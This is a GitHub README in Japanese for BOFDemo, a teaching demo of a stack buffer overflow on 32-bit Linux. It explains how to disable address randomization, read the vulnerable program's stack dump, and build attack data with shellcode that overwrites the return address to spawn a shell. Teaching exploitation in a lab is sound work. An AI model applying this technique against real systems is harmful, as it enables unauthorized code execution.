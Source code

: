 BOFDemo
--------
A simple buffer overflow vulnerability demo for IA-32

32ビットLinuxを対象にした，バッファオーバーフロー脆弱性の簡単なデモプログラムです．

## テスト環境

* CPU: Intel Core i7
* OS: Linux (Ubuntu 14.04LTS), 32-bit
* C-compiler: gcc 4.8.4
* libc: glibc 2.19

## ビルド

    make

問題なくコンパイルできれば，`demo` および `mkattack` という実行形式と，
`shellcode.bin` というバイナリファイルが作成されるはずです．なお，
`shellcode.bin` の作成に `objcopy` を使用しています．これは通常 `binutils`
というパッケージに含まれています．

## 実行

実行前にスタックアドレスのランダム化機能を無効にします．

    sudo sysctl -w kernel.randomize_va_space=0

プログラム `demo` は，ファイルに書き込まれた10進数値の二乗を出力するだけの簡単なプログラムです．以下のようにすると 1522756 が出力されます．

    echo 1234 > normal.dat
    ./demo normal.dat

実行オプション `-d` で関数 `f` 実行中のスタックを出力することができます．

    ./demo -d normal.dat

スタック出力は例えば以下のようになります．この出力では，関数 `f` 内で定義されたバッファ `buf` の先頭アドレスからスタックの下（高位アドレス）に向かって表示します．1行は4バイト（32ビット）分の表示です．

    ----------------------------------------------
     #  |   addr  |  uint    | +0 +1 +2 +3 | 0123 
    ----------------------------------------------
      0 | bfffeb7c| 34333231 | 31 32 33 34 | 1234
      1 | bfffeb80| 0804000a | 0a 00 04 08 | ....
      2 | bfffeb84| 080481f8 | f8 81 04 08 | ....
      3 | bfffeb88| 08048aeb | eb 8a 04 08 | ....
                    ........
     18 | bfffebc4| 00000000 | 00 00 00 00 | ....
     19 | bfffebc8| bfffeff8 | f8 ef ff bf | ....
     20 | bfffebcc| 08048981 | 81 89 04 08 | ....
     21 | bfffebd0| bfffebe0 | e0 eb ff bf | ....
     22 | bfffebd4| 00000400 | 00 04 00 00 | ....

この例の場合，バッファの先頭アドレスは 0xbfffeb7c です．バッファは64バイトなので，15行までがバッファの内容です．それ以降は他の変数やスタックサイズを調整するためのスタブ，そしてベースポインタおよびリターンアドレスと続きます．この例では20行目がリターンアドレスです．ここの内容をバッファの先頭アドレスに置き換えることで，関数から戻る際にバッファ内に格納されたコードを実行させることができます．

では，スタックの出力を参考にして攻撃用データを作成しましょう．作成を簡単にするためのプログラム `mkattack` を用意してあります．このプログラムの第1引数は `shellcode.bin`，第2引数はバッファ(`buf`)の先頭からリターンアドレスまでのオフセット(32ビットワードの個数)，第3引数は `buf` の先頭アドレスです．上の例の場合，以下のようになります．

    ./mkattack shellcode.bin 20 0xbfffeb7c > attack.dat

こうして作られた攻撃用データを与えるとシェルが起動してプロンプトが表示されるはずです．

    ./demo attack.dat


## 注意
実験が終わったら，スタック/ヒープアドレスのランダム化機構の設定を戻してください．Ubuntu等最近のLinuxディストリビューションではデフォルトで2（スタックおよびヒープの両方ともランダム化）になっていると思います．

    sudo sysctl -w kernel.randomize_va_space=2



